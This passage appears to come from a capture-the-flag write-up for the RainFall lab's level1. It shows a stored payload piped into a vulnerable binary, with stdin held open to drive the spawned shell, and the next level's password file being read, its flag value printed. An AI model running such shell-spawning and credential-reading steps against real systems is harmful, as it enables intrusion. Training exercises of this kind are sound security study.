 What we see here is the fact that GDB, as a wrapper to the binary, captures any signal sent to the process, including the SEGV. Stopping us from accessing the shell that the call to the `system` function would invoke.

But we may access it through the command line.

## pipe to new shell

```gdb
level1@RainFall:~$ cat /tmp/injectme | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Again, we see that the signal terminates the process immediately... but if we made it so STDIN stayed open, we should be able to communicate with the subprocess...

Lets use `cat -` to see if that works

# flag

```shell-session
level1@RainFall:~$ cat /tmp/injectme | ./level1
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$ cat /tmp/injectme - | ./level1

Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

^C
Segmentation fault (core dumped)
```

